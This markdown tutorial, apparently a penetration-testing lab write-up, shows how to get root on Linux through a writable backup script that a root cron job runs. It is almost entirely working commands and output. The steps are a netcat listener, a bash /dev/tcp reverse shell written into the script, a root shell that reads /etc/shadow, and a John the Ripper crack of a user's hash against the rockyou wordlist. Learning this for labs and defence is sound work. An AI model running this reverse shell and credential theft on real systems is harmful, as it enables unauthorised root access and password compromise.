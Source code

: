 # Cron jobs exploits

Become root on Linux using cron jobs: 

1. Find cron jobs from current user that run as root and may be exploited
2. Change the script or program to start a reverse shell as root
3. Listen and wait for it

## Example: Backup script

`ssh` into the target machine and look at `/etc/crontab`:

```text
Last login: Sun Jun 20 10:17:43 2021 from 10.9.2.27
$ cat /etc/crontab
...
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

Karen's backup script and test.py both run as root. Use either.

On the attack machine start a listener:

```text
└─$ nc -lnvp 4444             
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

Change the backup script:

```text
$ ls
backup.sh
$ mv backup.sh backup.sh.old
$ touch backup.sh
$ nano backup.sh
```

Put this code in:

```text
#!/bin/bash

bash -i >& /dev/tcp/<IP address attack machine>/4444 0>&1
```

And make the script executable:

```text
$ chmod +x backup.sh
```

On the attack machine:

```text
└─# nc -lnvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from <target IP address>.
Ncat: Connection from <target IP address>:55932.
bash: cannot set terminal process group (12785): Inappropriate ioctl for device
bash: no job control in this shell
root@target:~# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@target:~# cat /etc/shadow | grep matt
cat /etc/shadow | grep matt
matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:18798:0:99999:7:::
root@target:~# cat /etc/passwd | grep matt
cat /etc/passwd | grep matt
matt:x:1002:1002::/home/matt:/bin/sh
```

On the attack machine, copy matt's shadow in `shadow.txt` and matt's password in `password.txt`. 

```text
$ unshadow passwd.txt shadow.txt > crackmatt.txt

$ john --wordlist=/usr/share/wordlists/rockyou.txt crackmatt.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (matt)     
1g 0:00:00:00 DONE (2022-09-25 23:30) 3.225g/s 3303p/s 3303c/s 3303C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Notes

Not really exploit usage, but based on files with incorrectly installed authorities. 